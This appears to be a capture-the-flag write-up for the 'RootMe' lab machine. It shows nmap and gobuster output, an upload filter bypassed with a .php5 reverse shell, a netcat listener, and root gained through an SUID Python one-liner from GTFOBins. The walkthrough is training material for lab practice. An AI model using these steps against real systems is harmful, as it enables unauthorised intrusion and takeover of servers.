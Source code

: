 # RootMe - THM 
Description | A ctf for beginners, can you root me?
 --    | --
Difficulty | easy
## nmap scan
```bash
$ nmap -sV  10.10.123.179
  Nmap scan report for 10.10.123.179
  Host is up (0.11s latency).
  Not shown: 998 closed tcp ports (reset)
  PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
  80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
###### so, we can see we got to opens port SSH and HTTP

## HTTP
`http://10.10.123.179`
![alt txet](https://github.com/user-attachments/assets/79162dad-117b-4ab2-950d-111f4a36f747)

## Gobuster

Now let's find for hidden directories
```bash
$ gobuster dir -u http://10.10.123.179 -w /usr/share/wordlists/dirb/common.txt
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.                    (Status: 200) [Size: 616]
/.hta                 (Status: 403) [Size: 276]
/.hta.                (Status: 403) [Size: 276]
/.htaccess.           (Status: 403) [Size: 276]
/.htaccess            (Status: 403) [Size: 276]
/.htaccess.txt        (Status: 403) [Size: 276]
/.hta.txt             (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/.htpasswd.txt        (Status: 403) [Size: 276]
/.htpasswd.           (Status: 403) [Size: 276]
/css                  (Status: 301) [Size: 308] [--> http://10.10.123.179/css/]
/index.php            (Status: 200) [Size: 616]
/js                   (Status: 301) [Size: 307] [--> http://10.10.123.179/js/]
/panel                (Status: 301) [Size: 310] [--> http://10.10.123.179/panel/]
/server-status        (Status: 403) [Size: 276]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.123.179/uploads/]
```
Cool. we have two hidden directories, first let's check for /panel directory
## /panel Directory

![alt text](https://github.com/user-attachments/assets/4016356e-ea7a-46cd-beff-98b129749aa2)

### We can uplosd files here. Let's upload a web-shell to get a shell.

you can use this php reverse shell [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
### first, i tried uploading a test file with .php extension to see if it would be accepted. Unfortunately, it was rejected.
![alt text](https://github.com/user-attachments/assets/7e1f6514-0c75-4a63-bf98-11c06715efe3)

 ### After that, I tried changing the extension to .php5, and fortunately, that was successful.
![alt text](https://github.com/user-attachments/assets/c2960494-7412-4211-a981-891a5846ead8)

## /uploads Directory

![alt text](https://github.com/user-attachments/assets/5fa06fee-10f1-4e75-86c9-ad7e2766f07e)

Start a netcat listener from your attack machine.

```bash
$ nc -lvnp 1234
```
You have to visit the PHP URL in order to initiate the connection.
![alt text](https://github.com/user-attachments/assets/514e04dc-e33f-4758-883a-887dcb79be50)

## User flag

know let's search for user.txt flag
```bash
$ find -type f -name 'user.txt' 2>/def/null
/var/www/user.txt
```
![alt text](https://github.com/user-attachments/assets/57d9b7d5-6d40-4a0c-9c89-402657eceea6)

## PRIVILEGE ESCALATION
First we need to search for SUID permissions to escalate our privileges.

```bash
$ find -type f -perm -4000 2>/dev/null
```
![alt text](https://github.com/user-attachments/assets/4204c297-7d2f-4ba9-b9b8-8c616c4c5f2f)

we find the weird file. know we go to [GTFobins](https://gtfobins.github.io/gtfobins/python/#suid) and look for methods to exploit SUID in Python

```bash
bash-5.0$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# id
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
# whoami
whoami
root
```
![alt text](https://github.com/user-attachments/assets/ea1cf006-5fde-4b50-8faa-74df105dec72)

